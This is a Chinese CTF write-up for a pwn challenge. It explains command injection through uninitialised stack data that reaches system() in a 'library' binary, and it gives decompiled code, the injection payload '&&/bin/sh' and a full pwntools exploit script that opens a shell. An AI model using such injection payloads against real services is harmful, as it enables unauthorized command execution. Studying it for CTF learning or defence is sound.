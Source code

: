 # 0x00 前言

这种命令行注入在pwn中出现的比较少，所以记录分享一下。

# 0x01 命令行注入介绍
熟悉web安全的话就知道，如果对特殊字符过滤不当，会引发sql注入或者xss等安全漏洞。其中，命令行注入较为严重，因为可以直接拿到漏洞程序当前权限的OSshell。
然而，命令行注入不仅在web中会出现，在C语言程序中，也会出现命令行注入的漏洞。比方说这道pwn题，就是调用system时，没有对输入数据进行\0截断以及对特殊字符处理不当而导致的。
命令行注入相对于其他二进制漏洞相比利用比较简单，比方说这道题，举个例子：
```c
sprintf(&s, "du -sh lib/'%s'", v6);
system(&s);
```
其中设计初衷，v6应当是一个合法的文件名。但是如果攻击者恶意操控v6，比方说，让v6为：'&&/bin/sh'
进行sprintf拼接后，system所执行的命令为：
```bash
du -sh lib/''&&/bin/sh''
```
这里有两个linux命令行的知识：
1. &&，这是拼接两个命令，如果我们执行 command1&&command2，那么等价于先执行command1在执行command2。其中命令跟&&之间不必加空格。
2. 在命令后不加空格的''（两个单引号）会被忽略，比如ls''等价于ls，/bin/sh''等价于/bin/sh，du -sh lib/''等价于du -sh lib/（即，实际传进去的参数是lib/不是lib/''）

所以，执行上面的命令，相当于先执行了
```bash
du -sh lib/
```
再执行
```bash
/bin/sh
```
所以，可以getshell。

# 0x02 题目

题目所给的是一个library的服务，可以上传book，查看books，清除books。其中，book存放在lib/文件夹中。

# 0x03 漏洞点

```c
char *list_books()
{
  FILE *v0; // eax
  char *result; // eax
  char s; // [esp+4h] [ebp-C14h]
  char ptr; // [esp+804h] [ebp-414h]
  char *v4; // [esp+C04h] [ebp-14h]
  FILE *stream; // [esp+C08h] [ebp-10h]
  char *v6; // [esp+C0Ch] [ebp-Ch]

  v0 = popen("ls lib/", "r");
  stream = v0;
  result = (char *)fread(&ptr, 1u, 0x400u, v0);
  v4 = result;
  if ( result )
  {
    v6 = strtok(&ptr, delims);
    result = (char *)send("Book list:\nSize\tE-book\n");
    while ( v6 )
    {
      sprintf(&s, "du -sh lib/'%s'", v6);
      //很明显，这里存在可能的命令行注入
      system(&s);
      fflush(stdout);
      result = strtok(0, delims);
      v6 = result;
    }
  }
  return result;
```

其中list_books代码如上，v6来自fread从popen中的返回结果。他本来想做的是输出每个文件的大小，但是fread后没有用\0截断。所以调用strtok时，可能会读到fread后面的垃圾数据（当然如果可以操控的话就不是垃圾数据了）

sprintf的栈溢出会比较难利用，因为&s比较大，有0x800，而v6是从&ptr里面strtok出来的，而&ptr更小，只有0x400。所以应该没法很好的利用。

# 0x04 操控垃圾数据

那么，我们怎么去操控&ptr中的垃圾数据呢？这个时候看看另外一个函数

```c
int upload_book()
{
  char *v1; // eax
  int v2; // eax
  char buf[1024]; // [esp+Ch] [ebp-42Ch]
  char s[20]; // [esp+40Ch] [ebp-2Ch]
  FILE *stream; // [esp+420h] [ebp-18h]
  char *dest; // [esp+424h] [ebp-14h]
  size_t v7; // [esp+428h] [ebp-10h]
  int v8; // [esp+42Ch] [ebp-Ch]

  if ( book_counter > 10 )
    return send("too many books\n");
  send("Book filename: ");
  v8 = __isoc99_scanf("%20s", s);
  if ( v8 != 1 )
    return send("Wrong title format\n");
  v7 = strlen(s);
  if ( strcmp(&s[v7 - 3], ".bk") )
    return send("The name needs to end with '.bk'\n");
  send("e-book contents: \n");
  read(0, buf, 0x400u);
  if ( *(_DWORD *)buf != 'BBBB' )
    return send("Not an e-book\naborting...\n");
  v1 = (char *)malloc(0x18u);
  dest = v1;
  *(_DWORD *)v1 = 0x2F62696C;
  v1[4] = 0;
  strcat(dest, s);
  stream = fopen(dest, "w");
  if ( !stream )
    return send("Bad book filename\n");
  v2 = book_counter++;
  books[v2] = dest;
  fwrite(buf, 1u, 0x400u, stream);
  return fclose(stream);
}
```

其中，这在栈中也会分配0x400个字节，并且我们可以写入。
并且，调用完这个函数之后，清除栈空间时，只是简单地add esp,xxx，并不会清空其中数据。然后，再调用存在命令行注入的函数并分配栈空间时，也只是单纯地sub esp,xxx，也不会清空数据。在C语言中，如果此时对不赋值的局部变量直接访问的话，是UB行为。但是，从二进制安全的角度看的话，便是可利用的点了。其中这道题，本身就是一个局部字符串读取后未截断而造成的UB，然而我们便可以利用这个。

那么来试试： 
![图片描述](hackcenter/742286_B8YD2W3Y8ZJNJ9K.png)


很明显，BBBB123456789123456789123456789123456789AAAA的后面89123456789AAAA被拼接到du -sh lib/'%s'中了
动态调试看一下的话

第一次在system停下
 ![图片描述](hackcenter/742286_KEV75FKDRYYKT77.png)

第二次在system停下
 ![图片描述](hackcenter/742286_TTMMX45NMT3RYGD.png)


所以很明显，只要把89123456789AAAA改成

```bash
'&&/bin/sh'\x00
```

就可以getshell了。如前面所说。
其中，\x00是我们自己手动截断，不然strtok还会继续往后读。

所以最后exp

```python
#BBBB1234567891234567891234567'&&/bin/sh'
g_local = True

from pwn import *

if g_local:
	sh=process("./library")
else:
	sh=remote("xxxx",1234)


def upload_book(filename, content):
	filename += ".bk"
	sh.send("1\n")
	sh.recvuntil("Book filename: ")
	print filename
	sh.send(filename + "\n")
	sh.recvuntil("e-book contents: \n")
	sh.send(content)
	sh.recvuntil("Enter command: ")

def list_books_and_shell():
	sh.send("2\n")
	sh.interactive()

upload_book("1", "BBBB1234567891234567891234567\'&&/bin/sh\'\x00")
list_books_and_shell()
```

# 0x05 后言

还有一点要注意，pwndbg好像会默认在fork时跟子进程，所以要在~/.gdbinit的最后面(加载pwndbg之后)加上set follow-fork-mode parent。并且，&&与命令之间不能加空格。因为他strtok是通过空格和换行分断字符串的，加了空格我们的payload就会被strtok分割开。
